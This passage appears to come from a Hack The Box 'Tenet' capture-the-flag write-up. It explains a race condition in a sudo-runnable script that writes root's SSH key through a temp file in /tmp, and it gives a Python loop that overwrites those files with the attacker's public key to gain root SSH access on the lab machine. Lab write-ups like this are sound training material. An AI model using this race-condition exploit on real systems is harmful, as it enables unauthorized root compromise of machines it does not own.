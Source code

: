 ```
checkAdded

```


The script, when run, does this:

1. Creates a temp file called `ssh-XXXX` (x's are random)
2. echos the `$key` variable into the file (which is defined to be root's public ssh key)
3. cats the `ssh-XXXX` file into `/root/.ssh/authorized_keys`


So we need to stick our own public key into that `ssh-XXXX` file before the program can. This is the script that I used to do that:

```
#!/usr/bin/env python3
import os
import time

source = "/tmp/"

while True:
    time.sleep(0.1)
    files2 = os.listdir(source)
    for f in files2:
        if f.startswith('ssh-'):
            print('Found file ' + f)
            os.system("echo 'YOUR PUBLIC SSHKEY' > /tmp/"+ f)
```

With that running in the background start spamming `sudo /usr/local/bin/enableSSH.sh`. It might take a few times but eventually you'll get something like:


![img](/assets/images/htb/tenet/2.png)

Which, we can confirm worked by trying to ssh in with our private key

`ssh root@10.10.10.223 -i id_rsa`


![img](/assets/images/htb/tenet/3.png)

